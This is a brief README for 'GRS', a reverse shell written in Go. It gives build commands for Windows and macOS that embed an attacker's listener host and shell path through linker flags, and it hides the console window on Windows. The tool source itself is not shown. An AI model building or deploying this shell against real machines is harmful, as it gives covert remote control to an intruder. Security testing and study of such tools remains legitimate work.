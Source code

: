# GRS
### A Golang reverse shell


#### To build:
Windows:
        `$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"`
    
Darwin:
        `$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"`
